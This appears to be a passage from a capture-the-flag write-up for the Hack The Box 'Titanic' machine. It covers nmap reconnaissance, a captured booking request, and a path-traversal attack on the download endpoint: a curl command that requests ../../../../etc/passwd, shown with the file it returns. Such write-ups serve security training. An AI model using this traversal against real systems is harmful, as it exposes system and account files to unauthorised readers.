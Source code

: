 ```
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 17:46
Completed NSE at 17:46, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 17:46
Completed NSE at 17:46, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 17:46
Completed NSE at 17:46, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.09 seconds
           Raw packets sent: 101516 (4.467MB) | Rcvd: 70467 (2.819MB)
```
We see two ports open 22, and 80. We can also see it redirects us to titanic.htb so we will include this within our hosts file 

The website is pretty static except the `Book Now` tab in which we can register for something. I will capture this request on burp and send to repeater 
```
POST /book HTTP/1.1
Host: titanic.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://titanic.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 70
Origin: http://titanic.htb
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
Priority: u=0, i

name=test&email=test%40test.com&phone=1&date=2025-01-01&cabin=Standard
```
If we send this request
```
<SNIP>
/download?ticket=59878786-9537-4120-90a8-567b9382f942.json
<SNIP>
```
This is very interesting as this might be vulnerable to LFI attack. I'll use curl for this 
```
curl http://titanic.htb/download?ticket=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
<SNIP>
developer:x:1000:1000:developer:/home/developer:/bin/bash
```
